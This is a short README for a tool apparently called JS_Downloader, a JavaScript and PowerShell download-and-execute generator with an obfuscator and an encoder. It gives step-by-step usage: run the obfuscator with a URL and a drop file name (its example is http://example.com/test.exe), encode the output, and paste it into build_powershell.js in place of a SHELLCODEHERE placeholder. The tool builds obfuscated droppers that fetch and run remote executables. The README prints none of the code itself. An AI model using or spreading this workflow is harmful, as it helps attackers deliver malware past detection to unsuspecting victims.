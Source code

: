 # JS_Downloader
JavaScript powershell based Download &amp; Execute + Obfuscator &amp; Encoder

Usage of obfuscator.exe (can also use the invoke_obfuscator_script):

1) Through CMD cd to the directory where the EXE is.

2) type: obfuscator.exe url dropfilename
(for example: obfuscator.exe http://example.com/test.exe test.exe)

3) Code should get copied to clipboard


Usage of encoder.py:

1) Copy code from clipboard into encoder

2) Read output.txt file

3) Copy output.txt Code to clipboard

Usage of build_powershell.js:

1) Replace SHELLCODEHERE with the code you have in clipboard

2) Save :)


invoke_obfuscator_native: generates code from EXE (needs to be compiled)
invoke_obfuscator_script: generates code from the string given in code (requiers AutoIT)

And remember, stay Ethical!
